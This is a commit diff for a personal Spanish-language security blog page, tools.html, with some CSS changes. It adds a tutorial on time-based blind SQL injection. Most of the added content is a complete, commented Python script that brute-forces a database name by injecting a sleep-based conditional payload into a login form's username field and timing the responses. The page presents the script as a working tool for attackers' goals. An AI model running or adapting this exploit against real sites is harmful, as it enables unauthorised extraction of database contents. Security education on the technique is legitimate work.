

Before and after one commit to n4g1h4ck/n4g1h4ck.github.io, a plain HTML site: page tools.html in a window 1280 px wide. Shown: the part 61-1253 px from the top of the page at 89% size. Before the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Escribiendo los scripts en el archivo tools.html

```diff
--- a/css/article.css
+++ b/css/article.css
@@ -17,6 +17,14 @@
     font-family: var(--font2);
     font-weight: 700;
     color: var(--light-secondary-color);
+    margin-bottom: 25px;
+}
+
+.article .article_subtitle {
+    font-size: 2.3rem;
+    font-family: var(--font2);
+    font-weight: 500;
+    color: var(--dark-secondary-color);
     margin-bottom: 25px;
 }
 
--- a/css/general.css
+++ b/css/general.css
@@ -57,7 +57,7 @@ body {
     width: 100%;
 }
 
-.highlight {
+.highlight,b,strong {
     display: inline-block;
     color: var(--highlight);
 }
--- a/tools.html
+++ b/tools.html
@@ -7,6 +7,7 @@
     <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap-icons@1.11.3/font/bootstrap-icons.min.css">
     <link rel="stylesheet" href="https://n4g1h4ck.github.io/css/articles_general.css">
     <link rel="stylesheet" href="https://n4g1h4ck.github.io/css/article.css">
+    <link rel="stylesheet" href="https://n4g1h4ck.github.io/css/prism.css">
 </head>
 <body>
     <header class="header">
@@ -31,12 +32,86 @@
             </p>
 
             <article class="article">
-                <h2 class="article_title">Inyección SQL basada en tiempo</h2>
+                <h2 class="article_subtitle">Inyección SQL basada en tiempo</h2>
+                <h3 class="article_subtitle2">¿Qué es?</h3>
+                <p class="description">
+                    Imagina que estás tratando de abrir una caja fuerte sin saber la combinación. En lugar de ver los números directamente, solo puedes medir el <b>tiempo</b> que tarda la cerradura en responder a cada intento. Si introduces una combinación correcta, la cerradura podría tardar un poco más en abrirse, revelando así que estás en el camino correcto. Esto es, en esencia, lo que ocurre en una <b>inyección SQL ciega basada en tiempo</b>.
+                    <br><br>
+                    En el contexto de la seguridad informática, una inyección SQL ciega basada en tiempo es un tipo de ataque cibernético en el que el atacante explota una vulnerabilidad en una aplicación web para extraer información de una base de datos <b>sin que se muestre directamente en la salida</b>. En lugar de ver los resultados de una consulta SQL maliciosa, el atacante mide el tiempo que tarda la aplicación en responder. Si la consulta provoca un retraso, esto indica que la consulta ha sido al menos parcialmente <b>exitosa</b>.
+                </p>
+                <h3 class="article_subtitle2">Scripts</h3>
+                <p class="description">
+                    Para acceder a los valores de las bases de datos a través de esta vulnerabilidad (que es lo que cualquier atacante quiere) primero debes tener estos <b>requisitos</b>: <i>nombre de la base de datos utilizada</i>, <i>las tablas</i> que contiene la base de datos y <i>las columnas</i> que contiene la tabla.
+                </p>
+                <p class="description">
+                    Para obtener lo anterior, e creado una serie de <strong>scripts en python</strong> que se aprovechan de un <i>input</i> vulnerable de un formulario para ejecutar las <b>consultas sql</b>.
+                </p>
+                <p class="description">
+                    El primero descubre el nombre de la <b>base de datos</b> utilizada, el código es el siguiente:
+                </p>
+                <pre class="code"><code class="language-python"># Importa las librerias de pwntools
+from pwn import *
+# Importa las librerías requests para hacer peticiones HTTP, string para acceder a cadenas de caracteres y time para trabajar con el tiempo.
+import requests, string, time
+
+#Define una función ctrl_c que se activa cuando se presiona Ctrl+C.
+def ctrl_c(sig,frame):
+    print('\n\n Saliendo...\n')
+    sys.exit(1) # Termina el programa.
+
+signal.signal(signal.SIGINT, ctrl_c) # Registra la función ctrl_c para que se ejecute cuando se reciba la señal de interrupción (Ctrl+C).
+
+# Variables globales
+main_url = 'http://ejemplo.com/loginvulnerable.html' # Almacena la URL del sitio vulnerable
+characters = string.ascii_lowercase + string.digits # Define los caracteres permitidos para la fuerza bruta (letras minúsculas y números).
+
+# Define una función makeRequests que recibe una URL como parámetro.
+def makeRequests(url):
+    # Crea una barra de progreso con un mensaje inicial.
+    p1 = log.progress('Iniciando fuerza bruta')
+    time.sleep(2) # Introduce un retraso de 2 segundos
+    # Crea otra barra de progreso para mostrar la base de datos encontrada.
+    p2 = log.progress('Base de Datos')
+    database = '' # Inicializa una variable vacía para almacenar la base de datos.
+
+    # Recorre un bucle desde la posición 1 hasta el 10 (para iterar por los caracteres de la base de datos).
+    for position in range(1,11):
+        # Recorre un bucle por cada carácter permitido en la fuerza bruta.
+        for character in characters:
+            # Crea un diccionario que contiene los datos para la petición POST.
+            # La parte más importante: la consulta SQL maliciosa se inyecta en la clave 'usuario'.
+            post_data = {
+                # Esta consulta aprovecha la inyección para verificar si el caracter en la posición position de la base de datos coincide con el caracter actual del bucle (character).
+                # if(...,sleep(3),1): Condicional que introduce un retraso de 3 segundos si el caracter coincide (sleep(3)) o sigue con 1 si no coincide.
+                'usuario': f"test' or if(substring(database(),{position},1)='{character}',sleep(3),1)-- -",
+                'contraseña': 'test'
+            }
+
+            # Actualiza la barra de progreso 1 con la consulta SQL maliciosa que se está enviando.
+            p1.status(post_data['usuario'])
+            start_time = time.time() # Guarda el tiempo de inicio de la petición.
+            # Envía la petición POST a la URL con los datos del diccionario.
+            response = requests.post(url, data=post_data)
+            end_time = time.time() # Guarda el tiempo de finalización de la petición.
+
+            # Comprueba si la diferencia entre el tiempo final e inicial es mayor o igual a 3 segundos.
+            # Si es mayor o igual a 3 segundos, significa que la consulta tardó más y probablemente el caracter coincide con el de la base de datos.
+            if (end_time - start_time) >= 3:
+                database += character # Se agrega el caracter encontrado a la variable database.
+                p2.status(database) # Actualiza la barra de progreso 2 con el contenido de la variable database
+                break # Termina el bucle
+
+if __name__ == '__main__':
+    makeRequests(main_url)</code></pre>
+                <p class="description">
+
+                </p>
             </article>
         </main>
     </div>
     <footer class="footer">
         <a target="_blank" href="https://github.com/n4g1h4ck" class="link bi bi-github"></a>
     </footer>
+    <script src="https://n4g1h4ck.github.io/js/prism.js"></script>
 </body>
 </html>
```
